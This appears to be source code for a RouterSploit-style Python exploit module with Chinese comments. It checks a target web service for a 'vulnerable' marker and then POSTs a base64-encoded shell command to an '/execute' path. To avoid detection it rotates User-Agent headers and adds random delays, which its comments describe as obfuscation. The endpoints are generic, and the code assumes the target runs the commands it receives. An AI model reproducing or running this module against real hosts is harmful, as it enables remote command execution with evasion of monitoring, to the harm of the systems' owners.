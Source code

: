     target = OptIP("", "Target IP address")
    port = OptPort(80, "Target HTTP port")

    def __init__(self):
        self.user_agents = [
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3",
            "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Safari/605.1.15",
            "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.106 Safari/537.36",
        ]

    def run(self):
        if self.check():
            print_success("Target is vulnerable")
            # 编码命令
            cmd = "id"
            encoded_cmd = base64.b64encode(cmd.encode()).decode()
            # 发送混淆的请求
            headers = {
                'User-Agent': random.choice(self.user_agents)
            }
            data = {
                'command': encoded_cmd
            }
            response = self.http_request(
                method="POST",
                path="/execute",
                data=data,
                headers=headers
            )
            if response is None:
                print_error("Exploit failed")
                return
            # 假设目标会执行命令并返回base64编码的结果
            if response.status_code == 200:
                try:
                    decoded_output = base64.b64decode(response.text).decode()
                    print_success("Command output: {}".format(decoded_output))
                except Exception as e:
                    print_error("Failed to decode response: {}".format(e))
        else:
            print_error("Target is not vulnerable")

    def check(self):
        # 添加随机延迟
        time.sleep(random.uniform(1, 3))
        # 检查漏洞是否存在
        response = self.http_request(
            method="GET",
            path="/check",
            headers={'User-Agent': random.choice(self.user_agents)}
        )
        if response and response.status_code == 200 and "vulnerable" in response.text:
            return True
        return False
